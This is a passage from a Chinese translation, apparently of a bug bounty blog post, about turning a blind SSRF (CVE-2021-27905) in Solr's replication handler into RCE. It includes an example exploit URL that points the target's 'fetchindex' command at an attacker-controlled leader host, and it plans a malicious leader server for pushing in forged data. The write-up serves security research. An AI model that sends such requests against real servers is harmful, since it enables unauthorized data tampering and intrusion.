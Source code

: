 #  一种非常优雅的获取 Solr 服务器 RCE 的方法   
hacefresko  securitainment   2025-04-30 05:38  
  
> 【翻译】A very fancy way to obtain RCE on a Solr server   
  
  
大家好！在这篇文章中，我将讨论我迄今为止发现的最优美且复杂的漏洞之一，以及它如何被归类为"重复"，尽管我是唯一实现 RCE 的人。我在几周前发现了这个漏洞，它属于与我之前文章中描述的相同的漏洞赏金计划。和之前一样，由于这是一个私人计划，我需要隐藏一些信息。不过，我可以告诉你，它属于最大的游戏公司之一，这家公司与黑客和其他技术爱好者关系并不太好 ;)。  
  
另外，值得一提的是，我在这项研究中遇到了许多死胡同，也省略了一些不太有趣的 Solr 细节，因为这篇文章已经变得太长且技术性太强。希望你喜欢它，并觉得它和我一样有趣！  
## 前期工作  
  
这个故事始于去年，当时我在一个私人计划中的不同 Solr 服务器上发现了三个漏洞。正如前面提到的，其中一些漏洞在本博客的另一篇文章中有描述。我强烈建议阅读它，因为它可以作为本文将要讨论的一些 Solr 概念的介绍。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOdoKSTvEall0dicgCTr41IBdF4MaEYj67PpribUzMgecX1jM50QnG6O8cQcnIYicRdPibGibPicMJYEEyg/640?wx_fmt=png&from=appmsg "")  
  
在此期间，我还在其中一个 Solr 服务器中发现了一个已知的盲 SSRF，编号为 CVE-2021-27905，该服务器仅包含所有欧洲商店的前端数据（产品名称、价格、链接等）。这个服务器可以自由查询，没有任何私人信息。由于这不是一个高严重性或关键严重性的漏洞，我没有报告它，而是决定保留它，以备将来可能作为更复杂利用链的一部分使用。最后，我把它放在一边，转而进行其他不相关的项目。  
  
几个月后（在撰写本文时是两周前），我决定花更多时间进行漏洞赏金计划。我认为检查我之前报告的漏洞的所有笔记可能是一个很好的起点，以防有什么变化。目标是进入状态，并尝试让我的思维准备好持续进行黑客攻击，因为在我的职业生涯中，我发现心理方面是进行漏洞赏金时最困难的部分。  
  
现在，带着更积极的心态，当我记得在一个已经发现两个高严重性和一个关键漏洞的计划中还有一个盲 SSRF 时，我知道我必须再看一看。然而，这次我将采取更类似研究的方法，并决定更深入地研究 Solr。我很快验证了盲 SSRF 仍然可利用，并立即投入其中。  
## 理解盲 SSRF  
  
我的第一个目标是完全理解这个盲 SSRF，因为我最初是通过寻找常见的 Solr 漏洞发现它的，并没有深入研究。它位于 "/solr/<core>/replication  
"，这是一个核心的复制请求处理器。本质上，核心是 Solr 服务器中可用的不同数据集。在这种情况下，服务器为每种语言都有一个核心。例如，使用 "de" 核心，可以通过访问以下 URL 触发漏洞：  
  
https://target.com/solr/de/replication?command=fetchindex&leaderUrl=https://attacker.com  
  
为了了解更多关于这个漏洞涉及的所有功能，我需要查看 Solr 文档。幸运的是，Apache 维护了一个庞大的门户网站来托管 Solr 文档，所以不难找到与索引复制相关的章节。正如我所了解的，复制允许创建多个 Solr 实例的基础设施，其中领导者实例将其数据的副本分发给跟随者实例。领导者管理数据更新，而跟随者管理查询。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCOdoKSTvEall0dicgCTr41IB5zrNlCvRCTRLHQkZic7ge0aVtddVibGwwkHrvM4ua9tec3ibWAukkQaWA/640?wx_fmt=png&from=appmsg "")  
  
参与此基础设施的每个实例都必须有一个可用的复制请求处理器（"/replication"），它根据是领导者还是跟随者接受一系列命令。这些命令在索引复制章节的其中一个部分中有详细说明，其中 "fetchindex" 描述如下：  
```
fetchindex

  Force the specified follower to fetch a copy of the index from its leader.

    http://_follower_host:port_/solr/_core_name_/replication?command=fetchindex

  You can pass an extra attribute such as leaderUrl or compression (or any other parameter described in Configuring a Follower Server) to do a one time replication from a leader. This removes the need for hard-coding the leader URL in the follower configuration.
```  
  
这意味着我发现盲 SSRF 漏洞的 Solr 服务器是一个 follower 实例，可以通过指定 leader 来使用 "fetchindex" 命令执行一次性复制。  
  
了解到这一点后，我首先想到的是也许可以创建一个恶意的 Solr 服务器作为 leader，并将我自己的数据副本分发到目标服务器。由于目标 Solr 服务器包含了该公司所有欧洲商店的数据，这意味着我将能够修改这些商店的内容！这听起来很棒，但还有很长的路要走。  
  